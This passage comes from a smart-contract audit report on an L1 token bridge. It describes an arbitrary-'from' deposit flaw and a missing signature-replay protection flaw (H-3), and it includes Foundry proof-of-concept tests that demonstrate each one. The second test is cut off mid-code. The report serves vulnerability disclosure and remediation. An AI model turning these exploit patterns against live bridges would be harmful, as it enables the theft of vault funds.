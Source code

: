 `depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
```